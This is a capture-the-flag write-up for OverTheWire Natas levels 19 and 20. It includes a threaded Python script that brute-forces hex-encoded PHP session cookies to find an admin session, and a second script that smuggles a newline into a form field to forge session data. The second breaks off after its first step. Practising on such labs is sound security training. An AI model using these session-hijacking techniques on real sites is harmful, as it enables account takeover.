 ## natas19
This problem is same as before but now the cookie is very complex looking. But not as much since it looks like hex. When you convert hex to text, we get `38-admin` (number might be different for you). Well that's the hit. We change the number 38 from 0 to 640, convert back to hex and try which one hits.
<br>The python code which works is-

```python
import requests
import binascii
import threading
url = 'http://natas19.natas.labs.overthewire.org/'
auth = ('natas19', '<password>')  # replace with the actual password

session = requests.Session()
session.auth = auth
def try_session_ids(start, end):
	for session_id in range(start, end):  # the session ID is between 1 and 640
		print(f'Trying session ID: {session_id}')
		session_cookie = f'{session_id}-admin'.encode()
		session_cookie = binascii.hexlify(session_cookie).decode()
		cookies = {'PHPSESSID': session_cookie}
		response = session.get(url, cookies=cookies)
		if 'You are an admin' in response.text:
			print('Found the admin session ID:', session_id)
			print(response.text)
			break

threads = []
for i in range(0, 601, 100):
    thread = threading.Thread(target=try_session_ids, args=(i, i+100))
    thread.start()
    threads.append(thread)

for thread in threads:
    thread.join()
```
And you get a hit within few seconds. 

## natas20
For this problem, the source code has lot of rubbish written but we must focus on satisfying one key line which is -
```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
...
}
```
Here it says we should have Session name as admin and session's admin value also 1. To achieve this, lets understand the below code-
```python
import requests

url = 'http://natas20.natas.labs.overthewire.org/index.php?debug'
auth = ('natas20', '<password>')  # replace with the actual password

session = requests.Session()
session.auth = auth

# Step 1: Create a new session and inject our payload
data = {'name': 'admin\nadmin 1'}
response = session.post(url, data=data)

# Step 2: Use the same session to view the page again
```